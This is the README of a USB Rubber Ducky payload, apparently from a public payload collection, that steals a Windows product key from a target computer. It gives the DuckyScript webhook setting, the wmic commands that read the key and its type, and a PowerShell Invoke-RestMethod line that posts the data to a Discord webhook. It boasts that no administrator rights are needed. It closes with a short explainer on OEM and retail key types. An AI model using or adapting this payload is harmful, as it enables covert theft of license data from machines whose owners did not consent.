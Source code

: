 # Exfiltrate Windows Product Key

Through this payload, you can export the key information related to the Windows Product Key, knowing its type and the key itself, using a Discord Webhook.

No administrator permissions are required to do this, isn't that absurd, right? :-)

![](./assets/1.png)

**Category**: Exfiltration

## Index

- [Introduction](#exfiltrate-windows-product-key)
- [Note](#note)
- [Dependencies](#dependencies)
- [Settings](#settings)
- [Payload Description](#payload-description)
- [Product Key Types](#product-key-types)
- [Sources](#sources)

## Note

Tested on:
- Windows 11

## Dependencies

- Discord Webhook

## Settings

This portion of the payload serves as a user-defined configuration section where you should input your Discord Webhook URL. You should replace "example.com" with the actual Discord Webhook URL you want to use. The Webhook URL is the endpoint where your payload will send the acquired information related to the Windows Product Key, as well as its type, for exfiltration to a specified Discord channel or server. It's a crucial part of the payload that connects the data extraction process to your Discord platform for further analysis or actions.

```DuckyScript
QUACK STRING $hookUrl = "example.com"
```

## Payload Description

Through this payload, you can export essential information related to the Windows Product Key using a Discord Webhook, ensuring that you identify its type and the key itself.

At the beginning of the payload, the DETECT_READY extension [[1](#sources)] is used to optimize the opening of a PowerShell session on the target.

The following commands are then executed to obtain the necessary information about the Product Key:

1. This command retrieves the currently in-use Product Key:

   ```powershell
   wmic path softwarelicensingservice get OA3xOriginalProductKey
   ```

2. This command helps determine the type of key. You can refer to the [key types section](#key-types) for more details:

   ```powershell
   wmic path softwarelicensingservice get OA3xOriginalProductKeyDescription
   ```

The acquired information is stored in the `$exfiltration` variable, which is subsequently used to create the `$payload` object. This object is then utilized for exfiltration via a Discord Webhook.

**Exfiltration**:

```powershell
Invoke-RestMethod -Uri $hookUrl -Method Post -Body ($payload | ConvertTo-Json) -ContentType 'Application/Json'; exit
```

The `$hookUrl` variable was initialized at the beginning of the payload with the value you need to define before execution.

## Product Key Types

When dealing with Windows Product Keys, it's essential to understand the different types and their characteristics:

- **OEM Keys** (*Original Equipment Manufacturer*):

      **Transferability**: Not supposed to be transferable. These keys are typically tied to the prebuilt PC on which they were originally installed.
      **Usage**: Manufacturers use OEM keys to install Windows on new computers.
      **Procurement**: OEM keys can sometimes be found at discount key vendors, although their use on different hardware may be challenging.

- **Retail Keys** (*aka "Full Packaged Product" Keys*):
      
      **Transferability**: Transferrable. These keys can be moved from one computer to another.
      **Cost**: Retail keys are often more expensive, often exceeding $100.
      **Hidden Keys**: In some cases, a computer may already have a retail key, perhaps from a previous Windows upgrade. Users might not be aware of this until they check.

Understanding these key types is crucial when working with Windows Product Keys, as it can impact their use, transferability, and compatibility with different hardware and scenarios.

*Note: Source of this info [[2](#sources)]*

## Sources

- [1] Detect Ready: https://shop.hak5.org/blogs/usb-rubber-ducky/detect-ready
- [2] Is your Windows Product Key transferrable? https://www.tomshardware.com/how-to/transfer-windows-license-to-new-pc#is-your-windows-product-key-transferrable-3